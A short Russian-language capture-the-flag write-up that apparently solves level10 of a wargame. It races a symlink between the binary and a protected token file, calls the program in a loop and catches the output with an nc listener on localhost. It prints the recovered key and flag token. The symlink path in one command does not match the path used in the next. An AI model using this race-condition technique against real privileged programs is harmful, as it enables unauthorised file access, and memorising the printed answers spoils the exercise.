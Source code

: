 В папке у нас два файла. Токен и приложение level10

К Токену у нас нет доступа.

level10 требует два параметра, файл для отправки и адрес отправки.
При декомпиляции выяснилось что программа отправляет данные на порт 6969.
Так же, очевидно что данные отправлять нам нужно на локалхост (127.0.0.1), т.к. в локальной сети больше ничего у нас нет.
Как мы видим, у level10 и token есть права на чтение/запись для user flag10 
Мы попытаемся получить доступ к level10, но вместо этого откроем token
Для этого мы создадим символьную ссылку, которая будет почти мгновенно переключаться между level10 и token

while true; 
do ln -fs ~/level10 /tmp/aaa; 
ln -fs ~/token /tmp/aaa; 
done

Затем мы будем бесконечно вызывать ./level10

while true; 
do ./level10 /tmp/exploit 127.0.0.1; 
done

Начинаем слушать порт 6969

nc -lk 6969
...
...
...
...
PROFIT!

Среди кучи мусорных данных находим ключ!

.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.

sy flag10
getflag

Check flag.Here is your token : feulo4b72j7edeahuete3no7c





